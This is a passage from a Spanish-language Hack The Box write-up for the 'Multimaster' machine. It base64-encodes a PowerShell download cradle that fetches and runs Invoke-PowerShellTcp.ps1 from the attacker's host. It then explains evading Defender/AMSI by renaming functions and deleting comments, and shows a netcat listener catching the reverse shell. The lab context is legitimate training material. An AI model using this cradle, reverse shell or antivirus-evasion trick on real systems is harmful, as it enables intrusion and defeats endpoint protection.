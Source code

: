 Me copio en la clipboard el comando en base64

```null
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6/Invoke-PowerShellTcp.ps1')" | iconv -t utf-16le | base64 -w 0 | xclip -sel clip
```

Antes de ejecutarlo con el exploit, pruebo a hacerlo desde el usuario que ya he pwneado, para asegurarme de que no hay restricciones

```null
*Evil-WinRM* PS C:\Temp> powershell -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADYALwBJAG4AdgBvAGsAZQAtAFAAbwB3AGUAcgBTAGgAZQBsAGwAVABjAHAALgBwAHMAMQAnACkA
powershell.exe : IEX : At line:1 char:1

    + CategoryInfo          : NotSpecified: (IEX : At line:1 char:1
:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
powershell.exe : + function Invoke-PowerShellTcp

    + CategoryInfo          : NotSpecified: (+ function Invoke-PowerShellTcp
:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
powershell.exe : + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    + CategoryInfo          : NotSpecified: (+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
powershell.exe : This script contains malicious content and has been blocked by your antivirus software.

```

Me aparece un error, el Defender o el AMSI lo ha bloqueado. Para bypassearlo, basta con cambiar los nombres de las funciones y borrar los comentarios

<img src="/writeups/assets/img/Multimaster-htb/7.png" alt="">

Ahora ejecuta sin problemas

```null
nc -nvlp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.179.
Ncat: Connection from 10.10.10.179:50050.
Windows PowerShell running as user tushikikatomo on MULTIMASTER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Temp>

```
